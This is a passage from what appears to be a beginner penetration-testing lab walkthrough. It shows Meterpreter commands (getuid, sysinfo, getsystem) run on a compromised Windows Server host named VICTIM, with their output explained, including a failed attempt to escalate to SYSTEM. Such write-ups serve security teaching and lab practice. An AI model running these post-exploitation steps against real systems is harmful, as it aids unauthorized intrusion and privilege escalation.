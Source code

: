 #### **What Happened:**
```bash
meterpreter > getuid
Server username: VICTIM\admin

meterpreter > sysinfo
Computer        : VICTIM
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

#### **📊 What We Learned:**
- **Username:** VICTIM\admin (we're an admin user!)
- **Computer Name:** VICTIM
- **Operating System:** Windows Server 2012 R2
- **Architecture:** 64-bit system
- **Domain:** WORKGROUP (not in a domain)
- **Logged Users:** 2 people currently logged in

**Good News:** We already have admin privileges, but let's see if we can get even higher access (SYSTEM level).

---

### **Step 7: Can We Get Higher Privileges? (Privilege Escalation Attempt)**

**What We're Doing:** Trying to become SYSTEM (the highest privilege level in Windows).

#### **Command Used:**
```bash
getsystem
```

#### **What Happened:**
```bash
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: 1346 The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
```

#### **❌ Failed - But That's OK!**
The automatic privilege escalation failed because of UAC (User Account Control) restrictions. This is common on newer Windows systems.
